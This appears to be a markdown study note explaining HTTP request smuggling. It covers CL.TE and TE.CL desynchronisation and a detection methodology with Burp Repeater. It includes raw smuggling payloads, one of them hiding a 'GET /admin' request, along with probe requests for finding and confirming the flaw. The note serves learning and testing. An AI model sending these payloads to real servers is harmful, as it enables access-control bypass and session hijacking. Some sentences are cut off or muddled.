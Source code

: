 # HTTP Request Smuggling

## 1. HTTP Request Smuggling
- A web attack where an attacker exploits differences in how front-end and back-end servers interpret HTTP requests, allowing them to “smuggle” hidden requests past security controls.

## 2. What happens in an HTTP Request Smuggling attack
- ***The attacker sends a specially crafted request that the front-end and back-end servers parse differently. This causes the back-end to process a hidden request, often leading to unauthorized actions or data theft.***
- The attacker sends one confusing request.
- Front-end server thinks:
	- “Okay, this request ends here.”
- Back-end server thinks:
	- “Wait, there’s more data after this request!”
- The extra hidden request slips through without security checks.
- The attacker can:
	- Steal someone’s session/cookies.
	- Bypass logins/firewalls.
	- Even take over the application.

## 3. How do HTTP request smuggling vulnerabilities arise?
- These vulnerabilities occur when servers in a chain (like proxies, load balancers, and back-end servers) disagree on where an HTTP request ends, usually due to conflicting **Content-Length** and **Transfer-Encoding headers**.
- HTTP/1 has two ways to say how long a request is:
	- Content-Length (tells exact size).
	- Transfer-Encoding: chunked (sends data in pieces).
- If both are used together, servers might disagree:
	- Front-end trusts one.
	- Back-end trusts the other.
- This miscommunication opens the door for attackers.

## 4. How to perform an HTTP Request Smuggling attack
- Attacker crafts a request with both headers (Content-Length + Transfer-Encoding).
- Sends it to the website.
- Front-end forwards part of it to the back-end.
- Back-end reads extra hidden data as a new request.
- Attacker’s “smuggled” request runs in the victim’s session or bypasses checks.
```bash
POST / HTTP/1.1
Host: site.com
Content-Length: 13
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: site.com

```
-Here:
	-Front-end stops reading at 0.
	-Back-end treats GET /admin as a new request.

	

# Methodology
1. Pick an endpoint
2. Prepare Repeater for Request Smuggling
3. Detect the CL.TE Vulnerability
4. Confirm the CL.TE Vulnerability


	-	## Steps for Prepare Repeater for Request Smuggling
		1. Downgrade HTTp protocaol to HTTP/1.1
		2. Change the request method to POST
		3. Disable automatic update of Content-Length
		4. Show non-printable characters (\r\n)
		
		
	-	## Step for Detect
		- HTTP request
		```bash
		Content-Length: 6
		Transfer-Encoding: chunked
		\r\n
		3\r\n
		abc\r\n
		X\r\n
		```
		- IF Response :  
			- response(backend) -> CL.CL
			- reject(frontend) 
				- -> TE.CL
				- -> TE.TE
			- timeout(backend) -> CL.TE  
		
		
		- HTTP request
		```bash
		Content-Length: 6
		Transfer-Encoding: chunked
		\r\n
		0\r\n
		X\r\n
		```
		
		- IF Response :  
			- response(backend) 
				- -> CL.CL
				- -> TE.TE
			- timeout(backend) -> TE.CL
			- socket poison (backend) -> CL.TE

    -   ## 	Confirm
    
    	- CL.TE
		  ```bash
		  Content-Length: 6
		  Transfer-Encoding: chunked
		  \r\n
		  0\r\n
		  \r\n
		  X
		  ```

		- TE.CL
		  ```bash
		  Content-Length: 6
		  Transfer-Encoding: chunked
		  \r\n
		  1\r\n
		  X\r\n
		  0\r\n
		  \r\n
		  ```		



# 1. Checking if the front-end uses Transfer-Encoding
```bash
POST / HTTP/1.1
Host: victim.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

3    ← means "next chunk is 3 bytes long"
abc  ← 3 bytes of data
X

```
- 👉 What happens:
	- According to the HTTP/1.1 spec, **Transfer-Encoding** should take priority over **Content-Length**.
So the front-end trusts Transfer-Encoding.
	- It believes the body is chunked data.
	- It forwards only **abc** and treats the X differently (thinking it’s part of the next request).
	- Front-end waits for end of body **0\r\n\r\n**  But instead, you gave: **X**
	- ❌ That is not valid chunked syntax, so the front-end stops at abc and assumes that’s the complete
	- If the back-end breaks or interprets differently, you’ll notice strange responses (errors, partial data, - delays, or your “X” showing in the next request).


# 